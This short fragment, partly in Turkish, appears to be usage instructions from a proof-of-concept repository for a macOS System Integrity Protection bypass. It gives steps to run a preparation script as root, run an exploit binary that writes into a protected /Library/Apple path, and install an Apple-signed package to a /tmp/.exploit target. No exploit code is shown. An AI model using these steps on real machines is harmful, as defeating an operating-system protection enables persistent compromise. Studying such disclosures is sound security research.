 # Kullanım talimatları;
1. Run `prepare.sh` kök kullanıcı ile prepare.sh çalıştırın.
2. Compile and run `exploit` program, e.g. `sudo /path/to/exploit "touch /Library/Apple/sip-bypass"`
3. Birime Apple imzalı bir PKG dosyası yükleyin `/tmp/.exploit`, e.g. `sudo installer -pkg /path/to/applesigned.pkg -target /tmp/.exploit`






